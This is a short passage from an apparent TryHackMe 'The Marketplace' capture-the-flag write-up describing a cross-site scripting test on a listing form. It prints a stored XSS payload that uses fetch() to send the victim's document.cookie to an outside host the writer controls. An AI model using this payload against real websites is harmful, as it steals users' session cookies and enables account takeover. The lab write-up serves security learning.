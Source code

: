 Logged in

![/assets/images/TryHackMe/The_marketplace/Untitled%204.png](/assets/images/TryHackMe/The_marketplace/Untitled%204.png)

New Listing page posts the data to home page. Here I tried XSS 

![/assets/images/TryHackMe/The_marketplace/Untitled%205.png](/assets/images/TryHackMe/The_marketplace/Untitled%205.png)

Payload

```bash
<script>fetch("http://10.8.31.73:8000/"+document.cookie)</script>ro
```

